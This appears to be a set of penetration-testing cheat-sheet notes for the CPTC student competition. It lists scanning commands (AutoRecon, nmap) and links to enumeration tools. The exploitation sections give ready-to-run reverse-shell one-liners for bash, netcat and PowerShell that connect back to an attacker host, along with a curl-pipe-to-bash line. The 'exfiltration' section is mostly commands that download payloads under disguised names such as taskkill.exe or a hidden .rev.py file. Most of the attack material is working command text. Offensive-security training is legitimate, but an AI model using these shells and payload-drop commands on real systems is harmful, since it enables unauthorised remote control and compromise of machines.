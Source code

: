 # CPTC Notes

# Scanning

## Autorecon

Go straight up ez mode with [Autorecon](https://github.com/Tib3rius/AutoRecon)

```bash
sudo apt install python3
sudo apt install python3-pip
sudo apt install seclists curl dnsrecon enum4linux feroxbuster gobuster impacket-scripts nbtscan nikto nmap onesixtyone oscanner redis-tools smbclient smbmap snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf
sudo apt install python3-venv
python3 -m pip install --user pipx
python3 -m pipx ensurepath
source ~/.zshrc ## or .bashrc if old
pipx install git+https://github.com/Tib3rius/AutoRecon.git

## Run scans as sudo using one of the following
sudo env "PATH=$PATH" autorecon [OPTIONS]
sudo $(which autorecon) [OPTIONS]

## Example
sudo $(which autorecon) 10.10.10.10
```

## NMAP (fallback)

```bash
# Nmap fast scan for the most 1000tcp ports used
nmap -sV -sC -O -T4 -n -Pn -oA fastscan <IP> 
# Nmap fast scan for all the ports
nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan <IP> 
# Nmap fast scan for all the ports slower to avoid failures due to -T4
nmap -sV -sC -O -p- -n -Pn -oA fullscan <IP>

# Nmap fast check if any of the 100 most common UDP services is running
nmap -sU -sV --version-intensity 0 -n -F -T4 <IP>
# Nmap check if any of the 100 most common UDP services is running and launch defaults scripts
nmap -sU -sV -sC -n -F -T4 <IP> 
# Nmap "fast" top 1000 UDP ports
nmap -sU -sV --version-intensity 0 -n -T4 <IP>
# You could use nmap to test all the UDP ports, but that will take a lot of time
```

# Enumeration

## Yummy PEAS (Win/Nix)

[https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

# Exploitation

## Shellz

[Linux](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux)

```bash
curl https://reverse-shell.sh/1.1.1.1:3000 | bash
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
bash -i >& /dev/udp/127.0.0.1/4242 0>&1 #UDP
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done

#Short and bypass (credits to Dikline)
(sh)0>/dev/tcp/10.10.10.10/9091
#after getting the previous shell to get the output to execute
exec >&0
```

[Windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

```bash
nc.exe -e cmd.exe <Attacker_IP> <PORT>
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- [LOLBAS (Windows)](https://lolbas-project.github.io/#)
- [GTFOBins (Linux)](https://gtfobins.github.io/)

## Active Directory

- [Impacket](https://github.com/fortra/impacket)
- [Netwrix Attacks + Remediation](https://www.netwrix.com/attack.html)
- [The OGs](https://adsecurity.org/)

# Exfiltration

## Windows

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

## Linux

```bash
## Get shell from https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
```

# Infra Stuff

```bash
## Ez webserver to host shells
python3 -m http.server 80
```

# Resources

Holy Grail: [https://book.hacktricks.xyz/welcome/readme](https://book.hacktricks.xyz/welcome/readme)